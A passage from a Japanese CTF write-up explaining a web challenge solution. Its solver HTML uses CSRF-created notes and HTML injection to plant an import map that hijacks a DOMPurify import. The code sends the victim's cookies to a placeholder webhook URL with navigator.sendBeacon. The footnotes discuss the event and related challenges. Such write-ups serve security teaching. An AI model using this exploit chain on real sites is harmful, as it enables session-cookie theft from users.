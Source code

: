 あとは、これをうまく発火させるように、以下の2つのノートをCSRFで作成させればOKです:

- 1つ目のノート: `</script>`による脱出後に、上記Import Maps用の`type=importmap`の`<script>`要素をHTML injectionで作成する。
- 2つ目のノート: 上記Import MapsのJSONのintegrityをscript-srcに追加する。

### ソルバ

以下のHTMLを適当にサーブしてそのURLをbotにreportすると、`HOOK_URL`にフラグが送信されます。

```html
<body>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.2.0/crypto-js.min.js"></script>

  <script>
    const BASE_URL = "http://web:3000";

    // Edit this URL
    const HOOK_URL = "https://webhook.site/xxxxx";

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const getIntegrity = (content) => {
      const value = CryptoJS.enc.Base64.stringify(CryptoJS.SHA256(content));
      return `sha256-${value}`;
    };

    const createNote = async (body) => {
      const form = document.createElement("form");
      form.action = `${BASE_URL}/create`;
      form.method = "post";
      form.target = "_blank";
      for (const [key, value] of Object.entries(body)) {
        const input = document.createElement("input");
        input.name = key;
        input.value = value;
        form.appendChild(input);
      }
      document.body.appendChild(form);
      form.submit();
    };

    const dataUrl = `data:text/javascript,export default navigator.sendBeacon("${HOOK_URL}", document.cookie)`;

    const cdnUrl = "https://cdn.jsdelivr.net/npm/dompurify@3.1.6/+esm";

    // ref. https://developer.mozilla.org/en-US/docs/Web/HTML/Element/script/type/importmap
    const importMap = { imports: { [cdnUrl]: dataUrl } };

    (async () => {
      createNote({
        title: "x",
        content:
          "</" +
          `script><script type=importmap integrity=${getIntegrity(
            JSON.stringify(importMap)
          )} x=`,
      });
      await sleep(1000);

      createNote({
        [`imports[${cdnUrl}]`]: dataUrl,
      });
      await sleep(1000);
    })();
```

[^intro-01]: 加えて、あまり広くリーチできていなかったというのと、タイムゾーンの問題があったにもかかわらず、海外の強い方にも多く参加してもらえてびっくり&感謝です。[CTFTime](https://ctftime.org/event/2465/)に登録したのも一定以上の効果があったりする？
[^intro-02]: AlpacaHackは常設CTFでもあるので、終わったCTFも実際にリモート環境でテストすることが可能です！
[^pico-note-1-01]: 厳密にはサブセットではありません。興味がある人は調べてみてください。
[^pico-note-1-02]: 最初は`replace`ではなく`replaceAll`を使ってましたが、レビュワーから「`replaceAll`のMDNのページには該当の仕様の記述がなく、知らない人が想定解にたどり着くのは困難」という指摘を受け、たしかにと思い`replace`に変更しました。実際、`replaceAll`のままだった場合として、難易度がどの程度変わるのかは気になるところです。
[^pico-note-1-03]: 記憶しているところではDragon CTF 2021のweb/webpwnで初めて遭遇しました（参考: https://balsn.tw/ctf_writeup/20211127-dragonctf2021/#webpwn ）。これは、replaceAllの仕様を悪用してSQLiを行う問題です。
[^caas-01]: タグ関数によっていい感じにエスケープされるようなインターフェイスは最近よく見ます。コマンド呼び出しだとzx以外にBunも[同様のインターフェイスのAPI](https://bun.sh/docs/runtime/shell)を提供していますし、SQLだと[Slonik](https://github.com/gajus/slonik)あたりがそうです。JavaScriptの言語機能をうまくSecure by Defaultなインターフェイスとして活用できていて、良い流れだなと思っています。